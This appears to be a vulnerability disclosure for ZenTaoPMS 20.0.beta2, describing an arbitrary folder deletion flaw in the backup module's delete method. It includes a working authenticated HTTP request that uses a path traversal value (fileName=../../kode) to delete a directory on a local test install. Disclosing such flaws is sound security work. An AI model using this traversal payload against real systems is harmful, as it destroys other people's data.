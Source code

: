 # Any file deletion vulnerability exists in ZenTaoPMS-20.0.beta2

There is a vulnerability in the delete method in ZenTaoPMS-20.0.beta2-php7.2_7.4\zentaopms\module\backup\control.php.

![image](https://github.com/sec-Kode/cve2/assets/46676387/27165e11-c723-4d00-8b87-7209c92af813)
There is an unlink dangerous function here, and there is no filtering, so any file deletion operation can be performed.

And it will be deleted here in the form of the entire folder.

For the convenience of demonstration, create a folder named kode in the F:\phpstudy_pro\WWW\127.0.0.1\ZenTaoPMS-20.0.beta2-php7.2_7.4\zentaopms directory

![image](https://github.com/sec-Kode/cve2/assets/46676387/b1f83c55-94f2-4f1b-95d3-186d0e260144)

This vulnerability requires logging into the website backend to operate.

After logging in to the backend, we can use the following payload to delete the entire kode folder.

```
GET /www/index.php?m=backup&f=delete&fileName=../../kode HTTP/1.1
Host: 127.0.0.2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:125.0) Gecko/20100101 Firefox/125.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.2/www/index.php?m=index&f=app&t=html
X-ZIN-Options: {"selector":["body>*","title>*","#configJS"],"type":"list"}
X-ZIN-App: admin
X-Requested-With: XMLHttpRequest
Connection: close
Cookie: lang=zh-cn; device=desktop; theme=default; hideMenu=false; zentaosid=f4b230b8e5e69f9f22d9eb70df23e7db4edeeab5; vision=rnd; tab=admin; zentaosid=7bit6mr0sjtg18t0037sc62c5g; lang=zh-cn; device=desktop; theme=default; windowWidth=1094; windowHeight=908; vision=rnd; XDEBUG_SESSION=PHPSTORM
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

```

The kode folder was deleted successfully

![image](https://github.com/sec-Kode/cve2/assets/46676387/e5bec4b3-9e98-46e3-8013-03d06a3956af)

![image](https://github.com/sec-Kode/cve2/assets/46676387/361df370-29fc-49cd-bc72-7b5537e88d90)


